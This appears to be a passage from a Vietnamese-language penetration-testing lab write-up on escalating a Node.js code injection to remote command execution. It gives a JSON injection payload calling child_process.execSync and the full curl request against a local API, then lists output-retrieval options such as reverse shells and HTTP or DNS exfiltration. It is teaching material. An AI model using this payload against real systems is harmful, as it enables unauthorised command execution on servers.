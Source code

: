 
# 12. Thực Thi Lệnh (Command Execution)

Sau khi xác nhận rằng chúng ta có thể tiêm mã vào ứng dụng, mục tiêu tiếp theo là tối đa hóa khả năng khai thác lỗ hổng này và tiến tới thực thi lệnh từ xa (remote code execution, RCE), điều này sẽ giúp chúng ta đạt được mục tiêu khai thác lỗ hổng. Hướng đi tiếp theo là đạt được khả năng thực thi lệnh hệ thống thông qua mã JavaScript.

### Bước 1: Tiêm Mã để Thực Thi Lệnh

Chúng ta đã biết rằng khi mã được tiêm vào ứng dụng, có thể sử dụng hàm `require("child_process").execSync()` để thực thi lệnh hệ thống trong Node.js. Để kiểm tra khả năng thực thi lệnh, ta sẽ tạo một tệp mới gọi là `pwned` trong thư mục làm việc của hệ thống:

**Payload để Tiêm Mã**:
```json
{
  "text": "'}) + require('child_process').execSync('touch pwned')//"
}
```

Gửi yêu cầu với payload trên và kiểm tra thư mục của ứng dụng để xác nhận rằng tệp `pwned` đã được tạo.

**Lệnh cURL**:
```bash
curl -s -X POST -H "Content-Type: application/json" -H "Authorization: Bearer eyJhbGciOiJIUzI1N...SNIP...9R6zeoubrQTbUiThBpeQD7_DWibgo" -d "{ \"text\": \"'} + require('child_process').execSync('touch pwned')//\" }" http://localhost:5000/api/service/generate
```

**Kết Quả**: Tệp `pwned` đã được tạo trong thư mục của hệ thống, chứng tỏ rằng chúng ta đã thực thi thành công lệnh hệ thống từ xa.

### Bước 2: Lấy Kết Quả của Lệnh Thực Thi

Khi thực thi lệnh trên, chúng ta cần một phương pháp để nhận kết quả từ lệnh mà không có quyền truy cập vào backend. Một số phương pháp khả thi để lấy kết quả của lệnh bao gồm:

1. **Log kết quả ra console (cho kiểm tra nội bộ)**: Dễ dàng nhưng không có giá trị thực tế nếu không có quyền truy cập vào console của server.
2. **Reverse Shell**: Không khả thi nếu server ngăn chặn kết nối đi ra ngoài.
3. **Exfiltration qua HTTP (GET hoặc POST request)**: Bị giới hạn nếu không có khả năng gửi dữ liệu ra ngoài.
4. **Exfiltration qua DNS**: Không khả thi nếu không có kết nối internet.
5. **Lưu kết quả vào cơ sở dữ liệu**: Không thể áp dụng vì ứng dụng không sử dụng cơ sở dữ liệu.
6. **Ghi kết quả vào tệp và truy cập từ xa**: Là một giải pháp khả thi nếu có thể viết vào tệp trong thư mục có quyền truy cập công khai.
7. **Inject kết quả vào phản hồi HTTP**: Một cách tốt để trực tiếp trả kết quả lệnh cho client.

### Bước 3: Tìm Cách Lấy Kết Quả

Khi kiểm tra khả năng ghi kết quả vào tệp, chúng ta cần phải xác minh rằng ứng dụng có thể ghi vào một thư mục có quyền truy cập công khai. Tuy nhiên, ứng dụng không có thư mục công khai (`./public`) như thông thường. 
